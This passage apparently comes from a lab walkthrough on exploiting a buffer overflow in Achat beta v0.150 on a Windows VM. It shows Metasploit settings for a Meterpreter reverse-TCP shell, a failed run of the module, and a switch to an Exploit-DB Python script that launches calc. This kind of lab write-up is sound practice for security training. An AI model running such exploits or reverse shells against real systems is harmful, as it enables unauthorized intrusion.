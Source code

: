 
    Payload options (windows/meterpreter/reverse_tcp):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.249.127  yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Achat beta v0.150 / Windows XP SP3 / Windows 7 SP1



However, it just fails:



    msf exploit(windows/misc/achat_bof) > run

    [-] Exploit failed: No encoders encoded the buffer successfully.
    [*] Exploit completed, but no session was created.



I tried with different payloads, and with Wireshark up on the Windows
VM, and no traffic ever reached the VM.

##### Exploit-DB Python Script

There's a [python script](https://www.exploit-db.com/exploits/36025/) on
exploit-db for this exploit. In it's default state, it will launch calc.
We'll update the server address to the IP of the Windows VM, and give it
a run:



    root@kali# python achat-exploit.py
    ---->{P00F}!



On Windows:
